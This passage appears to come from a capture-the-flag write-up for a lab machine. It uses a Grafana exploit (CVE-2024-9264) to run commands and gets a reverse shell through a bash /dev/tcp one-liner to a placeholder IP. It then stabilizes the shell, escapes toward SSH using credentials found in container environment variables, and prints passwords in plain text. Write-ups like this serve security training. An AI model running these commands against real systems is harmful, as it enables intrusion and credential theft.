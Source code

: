 
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601150134.png)

It works perfectly, we can see the `/etc/passwd` file, based on that, let's try to achieve RCE, we can do:

```
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "id" http://grafana.planning.htb
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601150417.png)

As seen, RCE works perfectly, let's get ourselves a shell, set up a listener and do:

```python
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "bash -c "exec 5<>/dev/tcp/IP/4444; /bin/bash -i <&5 >&5 2>&5\" |" http://grafana.planning.htb
```


If we got our listener ready, we will receive the connection:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601151847.png)


Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


First step is stabilizing our shell, let's do:

```
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601151943.png)

We are inside of a docker container as the root user, we need a way to escape from it, let's use linpeas to check any way to get out of here:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601152428.png)

If we take a closer look at the environment variables, we can see credentials:

```
enzo:RioTecRANDEntANT!
```

Let's go into ssh:
